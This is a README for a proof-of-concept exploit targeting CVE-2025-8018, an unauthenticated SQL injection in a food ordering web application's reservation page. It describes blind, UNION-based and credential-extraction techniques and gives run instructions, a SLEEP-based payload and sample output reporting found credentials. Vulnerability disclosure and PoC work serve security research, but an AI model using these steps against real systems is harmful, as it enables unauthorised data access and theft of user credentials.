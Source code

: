# CVE-2025-8018 Exploit – Food Ordering Review System v1.0

This repository provides a Python proof-of-concept (PoC) exploit for **CVE‑2025‑8018**, a high-severity SQL Injection vulnerability discovered in the **Food Ordering Review System v1.0**. The vulnerability is triggered via the `reg_Id` parameter in `reservation_page.php`.

## 📌 Vulnerability Overview

- **Type:** SQL Injection (Unauthenticated)
- **Affected File:** `/user/reservation_page.php`
- **Vulnerable Parameter:** `reg_Id`
- **Disclosure Date:** July 22, 2025
- **CVE Reference:** [CVE-2025-8018](https://nvd.nist.gov/vuln/detail/CVE-2025-8018)
- **Impact:** Allows attackers to execute arbitrary SQL queries, including data extraction from the `users` table, without authentication

## 💡 Exploit Features

1. **Time-based blind SQL injection check** using `SLEEP()`
2. **Column-count discovery** using `UNION SELECT NULL,NULL,...`
3. **Data extraction** (e.g., usernames, passwords) via UNION-based injection
4. **Blind fallback extraction** to guess field lengths if direct output isn't visible

## 🛠️ Requirements

- Python 3.x
- `requests` library

Install dependencies:

```bash
pip install requests
```

 How to Use
Clone the repository:
```
git clone https://github.com/drackyjr/CVE-2025-8018.git
cd CVE-2025-8018
```
Update the target URL:

Open cve-2025-8018.py and modify:

TARGET_URL = "http://TARGET-IP/user/reservation_page.php"
Replace TARGET-IP with the actual address of the vulnerable system.

Run the exploit script:

```
python3 cve-2025-8018.py
```

Output
```
[*] Checking time-based SQLi with payload: 1 AND SLEEP(5)-- 
[+] Blind SQL injection confirmed!
[*] Testing how many columns the query expects...
[+] Looks like 3 columns work!
[*] Trying to extract data using UNION-based SQL injection...
[+] Found potential credentials in the response!
[*] Trying blind extraction fallback...
[+] Username is 7 characters long!

```
⚠️ Disclaimer
This PoC is provided strictly for educational purposes, such as CTF challenges, cybersecurity training, or defense testing on your own systems.

Do not use this against any production systems or systems you do not have explicit permission to test. The author and any associated parties are not responsible for misuse or damage resulting from the code.

